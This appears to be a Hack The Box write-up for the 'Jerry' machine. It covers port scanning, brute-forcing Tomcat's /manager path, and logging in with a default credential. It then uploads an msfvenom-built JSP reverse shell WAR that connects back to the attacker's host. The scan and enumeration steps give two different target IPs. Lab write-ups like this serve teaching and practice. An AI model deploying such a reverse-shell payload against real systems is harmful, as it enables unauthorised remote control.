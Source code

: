 # Jerry Writeup - by Thammanant Thamtaranon  
- Jerry is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.10.40`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed one open port:  
  - 8080 (HTTP)

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch`:  
  `dirsearch -u 10.10.10.95:8080`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- The `/manager` path was interesting since it returned a `401 Unauthorized` code.  
- Navigating to `/manager` required authentication.  
![Prompt](Prompt.png)  
- We tried leaving the username and password blank, but the 401 Unauthorized page provided an example credential, which we then used successfully.  
![Unauthorized](Unauthorized.png)  
- We successfully logged in.  
![Manager](Manager.png)

## Exploitation  
- On the manager page, we could upload `.war` files. We used `msfvenom` to create a Java JSP reverse shell payload:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f war > reverse.war
```
- We deployed the `.war` file and navigated to `/reverse`, which gave us a reverse shell.  
![Shell](Shell.png)  
- We were already in the Administrator group.  
- Navigating to the Administrator's Desktop, we found a folder named `flags`. Inside, the file `88 2 for the price of 1.txt` contained both the user and root flags.
